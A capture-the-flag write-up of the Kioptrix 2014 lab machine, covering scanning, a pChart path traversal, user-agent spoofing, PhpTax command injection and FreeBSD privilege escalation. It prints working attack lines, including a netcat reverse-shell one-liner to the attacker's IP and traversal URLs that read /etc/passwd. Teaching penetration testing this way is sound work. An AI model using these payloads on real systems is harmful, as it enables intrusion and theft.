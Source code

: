 # Kioptrix: 2014 Writeup

This vulnerable virtual machine was obtained from [VulnHub](https://www.vulnhub.com/entry/kioptrix-2014-5,62/ "URL for the virtual machine").

## Information Gathering

Using the `ifconfig` command, we have determined that our attacking machine's IP address is 192.168.56.103. We can then use the command `nmap -sn 192.168.56.0/24` to scan the local subnet to find what the victim's IP address is.

![](images/ping.png "Using nmap -sn 192.168.56.0/24 to find the IP address of our victim")

From these found IP addresses, we can narrow down our victim's IP address by seeing that only two addresses are identified as VirtualBox machines, and that knowing the address 192.168.56.100 is used by VirtualBox as its DHCP server, meaning that our victim is at address 192.168.56.104.

## Scanning

Running the command `nmap -A 192.168.56.104` will run tell us the services and their versions on all ports on the victim.

![](images/nmap.png "nmap -A 192.168.56.104 will scan across all ports")

As we can see that there is an http service running on port 80, we can get more information about it with the `nikto` utility. Running `nikto -h 192.168.56.104` will pull information about the web service on port 80, and we can see that there is a possible vulnerability that we can exploit.

![](images/nikto1.png "Getting information about the web server with nikto")

The same vulnerability exists when we try `nikto -h 192.168.56.104 -p 8080`.

![](images/nikto2.png "Getting more information about the web server with nikto")

## Gaining Access

While the vulnerability mentioned by nikto looks promising, unfortunately, we need to know the operating system version for the [associated exploit](https://www.exploit-db.com/exploits/764/ "Exploit for the associated vulnerability") to work. Since nmap told us the victim is running FreeBSD but not the version, we're out of luck on that front. As an aside, the exploit has some problems with compiling and the necessary instructions to fix them are located [here](https://www.hypn.za.net/blog/2017/08/27/compiling-exploit-764-c-in-2017/ "Instructions for fixing the compilation errors in the exploit")

Instead, we'll navigate to each of the two web services in a web browser to see if we can find anything interesting. The web service on port 8080 gives us a 403 Forbidden error, so this won't be of much use to us at this stage.

![](images/8080.png "Going to http://192.168.56.104:8080 in Firefox")

The other web service results in a simple message that "It works!"

![](images/80.png "Going to http://192.168.56.104:80 in Firefox")

Hmmm, not much here either. If we view the source for this page, it'll show us that there's a page located at pChart2.1.3/index.php that we can go to.

![](images/source.png "HTML code for the page at http://192.168.56.104")

Going to the indicated web page presents a site that renders charts and graphs for us.

![](images/pchart.png "The resulting web page")

After doing some research on pChart 2.1.3, it appears that there are [multiple exploits](https://www.exploit-db.com/exploits/31173/ "Link to Exploit DB for pChart 2.1.3") for this version, one of which is a path traversal attack. As an example, going to the site http://192.168.56.104/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd will display the contents of the /etc/passwd file.

![](images/passwd.png "The contents of the /etc/passwd file")

Armed with the knowledge that [Apache 2.2 on FreeBSD](https://www.freebsd.org/doc/handbook/network-apache.html "Link to the Apache documentation for FreeBSD") keeps the configuration file at /usr/local/etc/apache22/httpd.conf, I used the path traversal attack to display the contents by browsing to http://192.168.56.104/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fusr/local/etc/apache22/httpd.conf.

![](images/httpd.png "The contents of the httpd.conf file")

At the very bottom of the configuration file, there was a section about the web service on port 8080 that we couldn't get to before. It's set up so that the requester's user-agent string has to be Mozilla/4.0 to get access to the page there.

![](images/conf.png "The user-agent limiter in the httpd.conf file")

Firing up Burp Suite and sending a request to the web service on port 8080 will result in the 403 Forbidden error we've seen before.

![](images/burp.png "The 403 error in Burp")

Changing the User-Agent field to Mozilla/4.0 will result in us getting access to the web page.

![](images/mozilla4.png "Changing the user agent to get access to the web page")

The HTML code in the response includes an `a href` tag with a link to a phptax directory. Changing the GET request to go to that directory shows us that it hosts an instance of the PhpTax program.

![](images/phptax.png "The response given by navigating to the phptax directory")

This program has a remote code injection vulnerability in the pfilez parameter as evidenced by the [Exploit Database](https://www.exploit-db.com/exploits/21665/ "An exploit for the PhpTax program"). There's also a [Metasploit module](https://www.rapid7.com/db/modules/exploit/multi/http/phptax_exec "Link to the Metasploit module") for this vulnerability too. However, I decided to write up my own exploit in Python partly to have more familiarity with exploit development and also because we need a specific user-agent to get access to the vulnerability.

![](images/python.png "My PhpTax exploit")

[This exploit](exploit.py "The code for my PhpTax exploit") will use the remote code execution vulnerability to run the command `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.56.103 4444 >/tmp/f`, which will make a named pipe used to create a reverse shell with netcat that will connect back to our attacking machine on port 4444. The code for the reverse shell comes from [this resource](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet "Reverse shell cheat sheet"). If we first run `nc -lvp 4444` in a terminal, we'll set up a listener on port 4444 ready to catch our reverse shell. Then, we run our exploit in a different terminal, and we'll get a shell on the victim's machine.

![](images/shell.png "Using the exploit to get a reverse shell")

## Elevating Access

Before we can escalate our privileges on the victim's machine, we need to gather information about the system so that we can find an attack vector. A useful resource for knowing where to look can be found [here](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/ "Basic Linux privilege escalation"). Specifically, with the `uname -a` command, I found that the target was running FreeBSD 9.0 as an operating system.

![](images/freebsd.png "The victim's operating system")

Back on our attacking machine, we can run the command `searchsploit FreeBSD 9` to find exploits for the specific version that we're targeting.

![](images/exploit.png "Exploits for FreeBSD 9")

It looks like there's a few exploits for this version, but I'm going to use [26368](https://www.exploit-db.com/raw/26368/ "Local privilege escalation for FreeBSD 9.0"), which takes advantage of a vulnerability in the mmap implementation to gain root access. However, we must first get the exploit onto the victim's machine, and because the victim doesn't have `curl` or `wget`, we'll use `nc` to do so. We'll first copy the exploit into our attacker's home directory with `searchsploit -m 26368`. Then, on our attacker's machine we'll run `nc -lvp 1234 < 26368.c`, which will set up a listener on port 1234 that will send the contents of 26368.c to whoever connects. Back on our victim, we'll run `nc 192.168.56.103 1234 > exploit.c`, which will connect to our attacker, grab the contents of the file, and store it locally as exploit.c.

![](images/nc.png "Using nc to transfer files")

Now, we compile the exploit on the victim machine with `gcc -o exploit exploit.c`, run with `./exploit`, and we are now root!

![](images/root.png "Getting root")

We can then read the flag with `cat /root/congrats.txt`, and we have beaten this challenge!

![](images/flag.png "The challenge's flag")
